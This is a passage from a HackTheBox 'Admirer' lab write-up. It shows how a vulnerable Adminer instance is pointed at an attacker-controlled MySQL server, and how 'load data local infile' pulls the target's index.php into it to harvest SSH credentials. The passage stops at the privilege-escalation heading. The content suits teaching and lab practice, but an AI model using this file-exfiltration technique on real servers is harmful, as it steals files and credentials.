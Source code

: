Research shows this version is vulnerable ([Foregenix Blog](https://www.foregenix.com/blog/serious-vulnerability-discovered-in-adminer-tool)).  
The attack allows connecting Adminer to our **attacker-controlled MySQL server**.

We create a local database and user:

```bash
sudo systemctl start mariadb
sudo mysql -uroot
create database Pwned;
use Pwned;
create user 'kali'@'10.10.10.187' identified by 'kali123';
GRANT ALL on Pwned.* to 'kali'@'10.10.10.187';
create table data(output varchar(1024));
show tables;
describe data;
```

![MariaDB database creation](GitHubv2/HackTheBox/EASY/Admirer/screenshots/mariadb_creation.png)
![MariaDB table creation](GitHubv2/HackTheBox/EASY/Admirer/screenshots/mariadb_table_data.png)

Using Adminer, we execute SQL commands against our database:

![Adminer login](GitHubv2/HackTheBox/EASY/Admirer/screenshots/login_adminer.png)

Go to SQL Command section:

![Adminer SQL command](GitHubv2/HackTheBox/EASY/Admirer/screenshots/adminer_sql_command.png)

And write the command:

```bash
load data local infile "/var/www/html/index.php"
into table Pwned.data
```

![Adminer SQL executed](GitHubv2/HackTheBox/EASY/Admirer/screenshots/adminer_sql_command_execued.png)

And now let’s check the data of the table:

```bash
select output from data;
```

![Select output from data](GitHubv2/HackTheBox/EASY/Admirer/screenshots/select_output_from_data.png)

We extract new credentials from the table.

Let’s try the credentials on SSH as `waldo`:

![User flag](GitHubv2/HackTheBox/EASY/Admirer/screenshots/user_flag.png)

🏁 **User flag obtained**

---
## 4. Privilege Escalation
